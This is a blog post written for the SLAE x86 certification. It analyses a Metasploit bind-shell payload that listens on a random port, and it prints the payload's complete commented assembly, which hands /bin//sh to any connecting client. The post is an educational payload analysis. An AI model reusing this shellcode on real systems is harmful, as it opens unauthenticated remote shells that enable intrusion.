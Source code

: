 ```yaml
---
layout: post
title: "SLAE x86 Exam Part 5.3"
description: "SLAE x86 Exam Part 5.3: MSF Payload Analysis #3"
modified: 2018-06-03T15:00:00-05:00
tags: [pentest, asm, x86, slae]
---
```


# Overview
This blog post has been created for completing the requirements of the
SecurityTube Linux Assembly Expert certification:

[http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](/http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)

Student ID: SLAE-1260

---
# Payload #3

This is the third payload selected for [SLAE Part 5](/slae-5-msf). 

Like Payload #2, I started this one off by looking at the content of `EAX` 
going into each `SYSCALL` instruction.  Here's what I found:

{% highlight nasm %}
0000000D:   0x66 (SOCKETCALL)
00000017:   0x66 (SOCKETCALL)
0000001C:   0x66 (SOCKETCALL)
00000023:   0x3F (DUP2)
00000037:   0xB  (EXECVE)
{% endhighlight %}

Hmm...3 `SOCKETCALL`s followed by a `DUP2` and an `EXECVE` sure looks like a 
Bind shell.  For the calls to `SOCKETCALL`,`EBX` cycles through `0x1`, `0x4`, 
and `0x5`: `SOCKET`, `LISTEN` and `ACCEPT`, respectively.  

Note that there is no call to `BIND`, so we're not bound to any particular 
address. In this case, the kernel binds implicitly to `0.0.0.0` on an 
ephemeral port selected at random by the OS.  

I won't spend too much time on this since we already analyzed a BIND shell in 
[Exercise 1](/slae-1-bindshell), but let's step through and make sure this does 
what we're expecting:

{% highlight nasm %}
global _start

section .text
_start:
    xor ebx,ebx         ; Clear EBX
    mul ebx             ; Also clear EAX and EDX
    mov al,0x66         ; Set AL to 0x66 (SYS_SOCKETCALL)
    inc ebx             ; Set EBX to 1 (SOCKET)
    push edx            ; Push 0 (PROTOCOL arg)
    push ebx            ; Push 1 (SOCK_STREAM arg)
    push byte +0x2      ; Push 2 (AF_INET arg)
    mov ecx,esp         ; Save pointer to args in ECX
    int 0x80            ; Exec interrupt
    push edx            ; Push 0 (BACKLOG arg)
    push eax            ; Push socket FD (SOCKFD arg)
    mov ecx,esp         ; Save pointer to args in ECX
    mov al,0x66         ; SYS_SOCKETCALL
    mov bl,0x4          ; Set EBX to 4 (LISTEN)
    int 0x80            ; Exec interrupt
    mov al,0x66         ; SYS_SOCKETCALL
    inc ebx             ; Set EBX to 5 (ACCEPT)
    int 0x80            ; Exec interrupt
    pop ecx             ; Pop SOCKFD value
    xchg eax,ebx        ; Move returned FD to EBX
    push byte +0x3f     ; Push DUP2 syscall...
    pop eax             ; ...into EAX
    int 0x80            ; Exec interrupt
    dec ecx             ; Decrement counter
    jns 0x20            ; Jump to 0x3F syscall if >= 0
    mov al,0xb          ; EXECVE syscall
    push dword 0x68732f2f   ; "//sh"
    push dword 0x6e69622f   ; "/bin"
    mov ebx,esp         ; Save args to EBX
    inc ecx             ; -1 -> 0
    int 0x80            ; Exec interrupt
{% endhighlight %}

The only oddity here is the `pop ecx` after the call to the last 
`SYS_SOCKETCALL`.  The last thing pushed onto the stack was the file descriptor
for the new socket, which is guaranteed to be greater than the required
starting point for `ECX`, which is 2.  This avoids an wasting an additional 
`push` at the cost of a few unneeded CPU cycles for the extra loop iterations.

## Screenshots

![Execution of Payload #3]({{ "/assets/images/5.3-msf3.png" | absolute_url}})
